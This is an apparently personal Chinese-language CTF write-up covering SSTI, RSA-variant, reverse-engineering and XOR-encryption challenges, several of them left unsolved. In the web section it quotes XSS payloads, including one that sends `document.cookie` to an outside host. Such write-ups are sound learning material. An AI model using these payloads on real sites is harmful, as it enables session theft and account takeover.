

# 0X00 前言

終於到了SCIST課程結束後的季後賽。我知道我自己肯定還有很多不足的地方，不過依然是挺期待這次的比賽，希望可以再讓自己更進步點。不過沒想到居然只解出兩題...多多少少還是有點打擊自己的信心的。不知道是不是比較沒有天分，又或是說準備的方式有錯誤，總之就是對自己這種好像一直有在學習新知識但比賽卻都沒看見成效的狀態有點自責 + 受挫。不過還是先直接進Writeup看一下我的解題過程吧！

# 0X01 Web

## formatter

這題是一個文字的格式化器，說是格式化，他其實只是把兩邊加上貓貓XD。


如果你輸入了一些文字進去，他就會兩邊加上貓貓回傳回來。舉例來說，我先輸入`Test`然後點Submit，就會出現`😺 Test 😺`。稍微查詢了一下後，發現這題可能是個伺服器模板注入（Server Side Template Injection, SSTI）。這種漏洞就是攻擊者把惡意的代碼注入伺服器端的模板並操控模板引擎執行那些惡意代碼。而這題好像也確實有這個漏洞的存在，因為當我們輸入

```jinja2

{{c}}

```

他回傳的內容會是`😺 c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c 😺`，這長度看起來和Flag差不多（?）。到這邊，我就卡住了。這裡之所以只會輸出`c`是因為伺服器代碼中有針對使用者輸入做過濾和替換，會把`{{`和`}}`替換為空字元，如下。

```python
if request.method == "POST":
        rawtext = request.form.get("rawtext")
        mappings = {"{{": "", "}}": "", ".": "...", "(": ""}
        for mapping in mappings:
            rawtext = rawtext.replace(mapping, mappings[mapping])
        rawtext = "😺 " + rawtext + " 😺"
        return render_template_string(rawtext)
```

到這邊卡住之後，我有看到題目的資料夾中還有另外一個資料夾，名稱叫做notes。打開來看發現裡面都是一堆像是XSS的Payload，舉幾個例子。

- `<svg/onload=alert(1)>`
- `<svg/onload=fetch('http://dev.vincent55.tw:8787?a='+document.cookie)>`

然後還有一個是Rickroll的連結XD（https://www.youtube.com/watch?v=dQw4w9WgXcQ&pp=ygUEcmljaw%3D%3D）。所以到了這時候我就一直很疑惑為甚麼會出現這些notes，是不是要提示我們這題是XSS。結果就到了最後還是沒解出這題。

# 0X02 Crypto

## Smoothie

直接看題目吧，我把題目給的加密腳本跟密文 + 公鑰放在一起了。

```python
from Crypto.Util.number import bytes_to_long, getPrime, isPrime, size
from Crypto.Random.random import randrange

from secret import FLAG, SIZE


def mango_a_go_go() -> int:
    while True:
        p = 2
        while size(p) < SIZE:
            p *= getPrime(randrange(2, 12)) 
        if isPrime(p - 1):
            return p - 1


def strawberries_wild() -> int:
    while True:
        p = 2
        while size(p) < SIZE:
            p *= getPrime(randrange(2, 12))
        if isPrime(p + 1):
            return p + 1


def yogurt() -> int:
    return getPrime(SIZE) ** 2


def main():
    e = 0x10001  
    smoothie = strawberries_wild() * mango_a_go_go() * yogurt()
    flag = bytes_to_long(FLAG.encode())
    flag = pow(flag, e, smoothie)
    print(f"flag = {flag}")
    print(f"smoothie = {smoothie}")


if __name__ == "__main__":
    main()

# flag = 469221284029086826023747997560431390782361982638061257450599210708962645002102847975462660638193645789450754543161479618083250809660166042502944853280554224255633426448658481032615217773743807123912268129954755529085653283483845209697030918916368538410596291283961216415664601562539040139144815815020812381504
# smoothie = 697628240852435861833732827649361589992628854136683558886480614847121218068368409674997942839000556721079790078853783722095774006008786802855171763400576735341062935016809334479917656367316628949895516450621001020141725837414164848350808778574391917507635861296067849758069488027024995888841277834894925864271
# e = 65537
```

看完之後應該會發現它就是個RSA的變形。原本RSA中的n在這裡叫做smoothie，但是原本的n應該是由兩個大質數p跟q所相乘得到的，這題則是由兩個質數和另一個質數的平方相乘所得到的。其中兩個質數是由`mango_a_go_go()`和`strawberries_wild()`得到的，而另一個質數的平方則由`yogurt()`算得。

題目分析到這邊之後，我的思路是去找到歐拉函數 $\phi$ ，然後就可以正常用 $d = e^{-1} \mod \phi(n)$ ，再用 $m = c^{d} \mod n$ 就可以找到明文了。

我先用 [FactorDB](http://factordb.com/) 找看看找不找的到他的分解因數，結果真的找到了。


但結果分解出來後竟然只有兩個質因數，雖然和腳本說的有四個質數（其中一個有平方）不一樣，我還是繼續嘗試下去了，我嘗試用這兩個因數去找到 $\phi$ ，腳本如下。

```python
from factordb.factordb import FactorDB
from Crypto.Util.number import long_to_bytes

e = 65537
flag = 469221284029086826023747997560431390782361982638061257450599210708962645002102847975462660638193645789450754543161479618083250809660166042502944853280554224255633426448658481032615217773743807123912268129954755529085653283483845209697030918916368538410596291283961216415664601562539040139144815815020812381504
smoothie = 697628240852435861833732827649361589992628854136683558886480614847121218068368409674997942839000556721079790078853783722095774006008786802855171763400576735341062935016809334479917656367316628949895516450621001020141725837414164848350808778574391917507635861296067849758069488027024995888841277834894925864271

c = flag
n = smoothie

f = FactorDB(n)
f.connect()
factors = f.get_factor_list()

p = factors[0]
q = factors[1]

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)

m = pow(c, d, n)

print(long_to_bytes(m))
```

解果輸出的東西不是正常的字符。如下。

```
b'\xcdB\x16Lp%\xce\xd94G\xcc}G%l{\x0c4!\xb5\xba\xb2{Z\xee\xe0\xe2Aq7\x97\x10\xe2\xae\xb2\x9f\x05\x8c\xa5\xb4b4W\x12\xf8Z\xf9\x90w!<\xb0\xd9l<W&\x1fi\xbe\x9aU\x91\xceB\x9f\x9c\x9a\xbd\x83y\xb1_b\x02\xd1f\x11\xb2\x0b\xbe\x03\x8c\xdb\x01\x10\xcb\xc1\x89v\xed*\xd0\x0e\x9be\x8b\xf7j\xc4\x06\x1b\x17t\xa7s=<\x93\x9f8\x01kj\xc8\xb9\xb9\xcd\xb94\xbb\xee,\x02\xf2\xdd\x9e\x0f'
```

然後這題最後也是沒有寫出來🥲🥲。應該是 $\phi$ 是錯誤的，畢竟他有四個數，和FactorDB分解的不一樣。等到時候別人的Writeup出來我再來研究一下解法。

# 0X03 Reverse

## PeekMe

這題給了一個Binary文件，我們先執行看看。發現他是一個很簡單的小程式，具體交互內容如下。

```bash
┌──(kali㉿kali)-[~/SCIST/PeekMe]
└─$ ./peekme 
1. Say hello.
2. Say goodbye.
3. Exit.
1
Hello!
1. Say hello.
2. Say goodbye.
3. Exit.
2
Goodbye!
1. Say hello.
2. Say goodbye.
3. Exit.
3
```

到這邊，我們大概知道這就是一個可以輸入選項然後有點小功能的東西。接著，既然是Reverse題我們就用IDA把他打開來看看吧。打開之後大概的內容我放在下面。

```assembly
; int __fastcall main(int argc, const char **argv, const char **envp)
public main
main proc near
; __unwind {
push    rax
mov     rdx, rsi
movsxd  rsi, edi
lea     rdi, _ZN6peekme4main17h8f1a22c22fe4af78E ; peekme::main::h8f1a22c22fe4af78
xor     ecx, ecx
call    _ZN3std2rt10lang_start17h04c8c41c32fd9fd3E ; std::rt::lang_start::h04c8c41c32fd9fd3
pop     rcx
retn
; } // starts at A550
main endp
```

接著用IDA的Decompile功能把他反編譯後，會得到看得懂的代碼。接著對著`return std::rt::lang_start::h04c8c41c32fd9fd3(peekme::main::h8f1a22c22fe4af78, argc, argv, 0LL);`裡面的`main`點兩下，進到`main`函數中看看他的代碼。（我也不太確定這是甚麼語言，ChatGPT說是C++，信他一把。反正不是很重要，能看懂就行）

```cpp
__int64 __fastcall peekme::main::h8f1a22c22fe4af78()
{
  __int64 v0; // rax
  __int64 v1; // rax
  __int64 v2; // rdx
  __int64 v3; // rax
  __int64 v4; // rdx
  char v6[24]; // [rsp+38h] [rbp-140h] BYREF
  char v7[16]; // [rsp+50h] [rbp-128h] BYREF
  __int64 v8; // [rsp+60h] [rbp-118h] BYREF
  __int64 v9; // [rsp+68h] [rbp-110h]
  char v10[48]; // [rsp+70h] [rbp-108h] BYREF
  char v11[48]; // [rsp+A0h] [rbp-D8h] BYREF
  char v12[48]; // [rsp+D0h] [rbp-A8h] BYREF
  char v13[48]; // [rsp+100h] [rbp-78h] BYREF
  char v14[64]; // [rsp+130h] [rbp-48h] BYREF
  __int64 v15; // [rsp+170h] [rbp-8h]

  while ( 1 )
  {
    while ( 1 )
    {
      peekme::print_menu::hfa5f59ad859dee03();
      alloc::string::String::new::hf9d068018f009bc3(v6);
      std::io::stdio::stdin::h89cff74eb89d9610();
      v8 = v0;
      std::io::stdio::Stdin::read_line::hbc05ff0cbbf71c20();
      core::ptr::drop_in_place$LT$core..result..Result$LT$usize$C$std..io..error..Error$GT$$GT$::h26378bc0e070a403(
        v7,
        &v8);
      v1 = _$LT$alloc..string..String$u20$as$u20$core..ops..deref..Deref$GT$::deref::hb7507d927317f778(v6);
      v3 = core::str::_$LT$impl$u20$str$GT$::trim::h83e8a696fa2aacc0(v1, v2);
      v15 = core::str::_$LT$impl$u20$str$GT$::parse::h02bdf3cbed74437f(v3, v4);
      v9 = v15;
      if ( (v15 & 1) == 0 )
        break;
      core::fmt::Arguments::new_const::h2579e8f805344237(v14, &off_58380, 1LL);
      std::io::stdio::_print::h599d580b15036a4c();
      core::ptr::drop_in_place$LT$alloc..string..String$GT$::h40c43e23f371b83b(v6);
    }
    if ( HIDWORD(v9) == 1 )
    {
      core::fmt::Arguments::new_const::h2579e8f805344237(v10, &off_58350, 1LL);
      std::io::stdio::_print::h599d580b15036a4c();
      goto LABEL_12;
    }
    if ( HIDWORD(v9) != 2 )
      break;
    core::fmt::Arguments::new_const::h2579e8f805344237(v11, &off_58360, 1LL);
    std::io::stdio::_print::h599d580b15036a4c();
LABEL_12:
    core::ptr::drop_in_place$LT$alloc..string..String$GT$::h40c43e23f371b83b(v6);
  }
  if ( HIDWORD(v9) == 3 )
    return core::ptr::drop_in_place$LT$alloc..string..String$GT$::h40c43e23f371b83b(v6);
  if ( HIDWORD(v9) != 333666999 )
  {
    core::fmt::Arguments::new_const::h2579e8f805344237(v13, &off_58380, 1LL);
    std::io::stdio::_print::h599d580b15036a4c();
    goto LABEL_12;
  }
  core::fmt::Arguments::new_const::h2579e8f805344237(v12, &off_58370, 1LL);
  std::io::stdio::_print::h599d580b15036a4c();
  return core::ptr::drop_in_place$LT$alloc..string..String$GT$::h40c43e23f371b83b(v6);
}
```

可以看到在第56行的部分，也就是`if ( HIDWORD(v9) != 333666999 )`的地方，出現了不尋常的選項。前面都是正常的1~3的選項，這個333666999就看起來很詭異。於是我們`./peekme`，並且輸入`333666999`。果然，就找到Flag了！

```
SCIST{h0w_diD_y0u_f1nd_m3!}
```

## TinyEncryptor

這題的話，直接執行會發現甚麼東西都沒有，看起來就像是甚麼都沒發生一樣。同時這題題目叫做TinyEncryptor，並還給了一個`encrypted.txt`，如下。（雖然放了也都是亂碼但還是放一下XD）

```
������̈������������탈�݈ˈ���������ӈ��������̈��̈�������̈�ӈ��ψ������̈��������������؆������ψ���Lj�݈����ƈ���Lj��ψ����̈�Έ������̈������݈��̈��݈ˈ����������̈�����������܈�݈�������܈���Lj��ψ����̈�Έ�����������Ĉ�������������������������̈�������������ψ�������ڈ���Ĉ�����������ӈ�����ψ�ƈ�������̈���݄���̈����ψ��������݈���Ĉ�ψ�������̈�ӈ�������ڈ�������ψ��̈�������φ�����������������݈�������ڈ�݈�������̈�ӈ����������ψ�������ψ�����ˈ�����ψ���������ƈ��ӈ���܈�݈�����������ψ�و��ψ���܈�Έ��ψ�����Lj��̈��ψ����چ�����݈������������Ĉ�݈��ψ�������ψ�݈��܈���ӈ������̈��ڈ��݈����ڄ���܈���و������܈��݈����ڄ�����������������݈�Έ��ψ���������ӈ���ψ���ψ�������ψ�������܈������̈�������ƈ�و�����ψ�܈�݈�����������݈��������������������̈������ƈ��������ӈ�������݈�و��ψ����ψ�����݈���ƈ�����������و��ψ���������ӆ��������������̈�������������������݈������݈������������Ĉ���ˈ����������Ƅ������ψ���������ψ�������ӈ�����������̈�������܈�����������݈������������������ψ���܈��ψ���������ӈ���Ĉ���ψ��������݈����ڄ����݈����ψ�و������݈��̈������τ���̈���݈���ψ�������ψ���Lj�ƈ��̇���ڈ����������φ����ӈ���و����ψ���܈������̈�������������Ĉ����ш��������݈��̈������݈�و����ڈ�������̈�������ڈ�������ӈ���ڈ���܈�������݈��������ӈ��������φ���������݈����ƈ����ψ���܈���݈���������ӈ���Ĉ�ψ���̈��������ӈ�و������ψ������Ĉ�����݈���������܈�������݈�������̈�����������݈�و��ψ����ڃ���̈��܈�و�������ψ�������ڈ�������ӆ��������J("��J("�����؈������������݈����Ĉ��̈��섈�������ψ������������݈������݈�����̈���Ą���̈���������������Lj��������݈������݈��������܈������ψ������̈�����������ƈ����ڈ�������݈�Έ������̆�����������ψ��������ӈ�������݈���܈����ӈ��ш���܈��������݈����݈�����ˈ������̈�������Lj�����ψ���烆����������݈�Έ���ӈ����������و���݈��������ӈ��ψ�����ψ�����̈�����݈���������܈�Έ������φ��������ӈ�������ݢ������̈��������������������݈��Ј��ӈ���������ӈ�������݄��Έ��������Ĉ��ψ�������̈��ڈˈ����ӈ������̈�����DŽ����܈�݄�ˈ�����Lj��������܈�و��ψ����������������ݒ������������܈��Ӣ�����ψ����܈��̈�����ܢ�����ӈ���������������������̈��������Ƣ�����̈������Ϣ�����ψ����������Ƣ������̈����̈����ӈ����������������܈��Ӣ��ψ����������܈��ӈ�݈ˈ�������܈��������͈��̈������ψ��ӈ���ڈ���܈�݈������̈�������ӈ�ƈ��ψ���؈�܈����������ψ���ψ��̈�����܈�ψ������̆���ψ������ψ��ӈ����ڈ�����݈��ψ���؄�����ψ��ψ�����͈��ӈ�݈���̈��ڈ����������ƈ��̈��ڈ���������ƈ�Έ��������ψ���ˈ���܈�و��ψ���؄��݈�����݈���������ψ����������������؈������̆���������݈��ӈ�݈���̈�و����ш��ψ��������ƈ�Έ�����ψ�����������ݒ�����ӈ������̈�������Lj�����ψ���烈�݈�������̈�و�ψ���ψ�و���ƈˈ�����Lj�����ڈ��ƈ����ڈ�و����ш��ψ����ڈ�و���ш���܈�ψ��݈ˈ������ψ������̈�������ڃ��������ˈ���������ڈ�������Ĉ������̈�ӈ��ψ������̈��������������؈���ψ�����܈��������݈����������ƈ�������ă��ƈ����ڈ�و�����ψ��݈���������ψ�Έ��ψ����������̈��̈�و����ψ��݈�������ӕ����݈����݈�܈���������ψ��ڈˈ�������ψ����������ڈ������ƈ��������̈����������܈��ӈ���ڈ������τ�ˈ���·��������̈��σ��و����܈ˈ�����ψ����������ƈ�����ˈ������̈�����ӆ���ψ��������̈�����������������̈�و���ψ��ψ���������ƈ�Έ���݈��ӈ�ӈ�������ψ�������݈���̄���܈�����ڈ���������ψ�݈��܈ˈ�����������������܆�������ӈ����������������ӈ�����������������݈�����ƈ�����ӈ���������ƈ���������݈�و������ψ���Ĉ��������ƈ�Έ��������ψ����݈�Έ������J(<��ڈ������τ���������݈�����������������������͈���݆����ƈ��ψ���������������Lj���݈��܈���ψ���Ĉ�����݈�و��������̈�����ӆ���ψ����܈�������������ƈ������݈��ψ�����ڈ�������͆�������̈������Ϣ�����̈������ψ�������݈������ψ����������ƈ�ӈ���������܈�و�������Lj������������ƈ����������ƈ������������ψ�������ψ��̈�������ψ���������̆����݈����݈��ψ���ˈ��ƈ�ψ�������̈���ӈ�وˈ���������ڈ����������ƈ�Έ�������ψ��̈�������φ������̈������ψ��ƈ�ψ���̈��ڈ����������������ڈ������τ�����݈��و���؈ˈ������ƈ����ڈ�������ڈ���܈��݈��܈���ƈ�������̈�و�ψ�������̈���Ĉ��܈�ψ���ψ�و���ӈ�܆���������ӄ�ˈ���ڈ��ƈ�����ψ��ψ�����������ƈ�و�܄���̈���̈�܈�و������ψ���τ����ӈ�܈�ƈ��ψ�������ψ�Έ����ڈ�����τ��ڈ���ň�܈�؈���̈�ƈ���ψ����݄���ψ������������ƈ�������ψ�و������܈�܃��������������ӄ���ψ���ڈ��ӈ��ψ�������ψ�و�����ӈ��ψ���������������ǁ݈����������݈�و���ψ�܈���ň��ψ��������ˈ���τ���ӄ�ˈ��������ӈ������ψ��݈�������̆������������̈������τ���ψ������݈�������ӈ��������̈������ˈ��ӈ����̈�و��ψ������̈�������Lj�����ψ�و���܈���ӈ��ψ���������̈��̈���������̈����͈�����ڈ�ƈ��݈�ڈ��ڈ�������ڈ��ƈ���ӈ�܆��ƈ���݈��������������τ����݈����܈���و������܈�����ψ���Lj�����������و��ψ���������ڈ�������ˈ��ш�������ڄ��ڈ��������������݈�Έ����ڈ������܈��τ������܈����ڈ�������܈���������ƈ�Έ��ψ�����ڈ�Έ��ψ������������ψ����������Ƣ�����ψ����������ƈ�����݈������݈�و��ψ���ځ݈�������ڈ�و�ψ�������̈�ӈ���������̈������݆���ڈ������τ��������ψ��������݈��ƈ�������ӈ�����������̈������݈�و�������τ���������������݈��������������ڈ�������ψ�و���������܈���������Ĉ������Ĉ�����݈�����������݆��܈����݈�ӈ���������ψ�������ψ�������ψˈ����������ψ�����������܈�������ψ�݈��������ӈ�����������ψ�������ڈ��ƈ���ƈ������܈���݈����������ψ�وˈ�����ψ����ӈ�و���ш���܈��������̈�������ψ�݈��������ӈ������������������݈�����ψ����������ƈ������݈���ψ���ƈ�������̈��ڈ������݈�������ڈ������������݄���������������Ą������������������̈��������������ψ����������ƈ�݈������ӈ�������̈����������͇��ӈ���������ƈ�و���܈��ψ����������ƈ���܈��ƈ���ӈ�ψ���̈�ӈ��ψ�������݈���܈��������̈��ψ����������Ƅ���̈��܈�ӈ�ƈ�����������چ���و���ψ��ψ�����������ψ����Ƅ���ψ���ځ݈����͈�����ڈ�������ψ����̈���̈��ψ������و����ڈ�������݄���܈���ӈ�Έ���ӈ����̈�����܈���܈���ӈ���ψ���������ƈ���������̈���ӈ�Έ��ψ����͈�����ڈ�������φ��������̈�������ψ����ڈ�����������݄����݈�������݈ˈ���ψ���������̈�������ڈ��ψ����͒���������̈����������݈��ψ���ڈ���Lj�����������܈�݈�܈�݈����������̈�و��ψ����و��������DŽ������ӈ���������������݈�܈���Lj�����������̈�و������ڈ���ň����݈�݈�܈�݈�����������̈�Ƅ������̈������ψ�������݈�����������̈�����݈�و�܈���ƈ����̈�و��ψ���̈����τ���̈�����ψ����������ƈ�������݈�����������̈�������ψ���Lj������������ψ��������ƈ���ƈ�܈�݈���̈�ƈ����ڈ��������݆��و�������ψ��ψ������ӈ�Έ����������ƈ���������݄������܈��������݈����������ƈ��݈���ƈ�������̈�݈ˈ�������Ƅ����������݈ˈ����؈��������ψ�����ψ�و������܈������������ψ�������ӈ�Έ���������Ĉ������݆������Έ�Έ����ψ���������ψ���ƈ�������̈�و�ψ���̈��ڈ������ψ��������Ƅ��ӈ������������������ڈ��ψ䛈����ψ�Έˈ��������ڈ�݈����ӈ�φ������݈�����������ψ�و�������ψ��ψ������ψ������ψ������܈����ψ�����݃��ڈ�������݈ˈ������ψ���܈�������̈������������̆�������������ρ݈���ڈ�������������ڝ���ܝ�������ؑ��Ƌ�
```

應該是個加密腳本，所以我們直接分析他的Binary，IDA啟動！

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // eax
  char v5; // [rsp+1Fh] [rbp-11h]
  FILE *v6; // [rsp+20h] [rbp-10h]
  FILE *stream; // [rsp+28h] [rbp-8h]

  if ( argc != 2 )
    return 3;
  v6 = fopen(argv[1], "r");
  if ( !v6 )
    return 2;
  stream = fopen("encrypted.txt", "w");
  if ( !stream )
    return 1;
  while ( 1 )
  {
    v5 = fgetc(v6);
    if ( v5 == -1 )
      break;
    v4 = v5 + 1;
    LOBYTE(v4) = v4 ^ 0xA9;
    fputc(v4, stream);
  }
  fclose(v6);
  fclose(stream);
  return 0;
}
```

打開後發現，這就是一個XOR加密。具體工作流程是會對Flag的每一個字元的ASCII值逐個+1，之後和`0xA9`做XOR，並寫入加密文件中加密文件中。




# 0X04 Pwn

# 0X05 Misc

# 0X06 心得

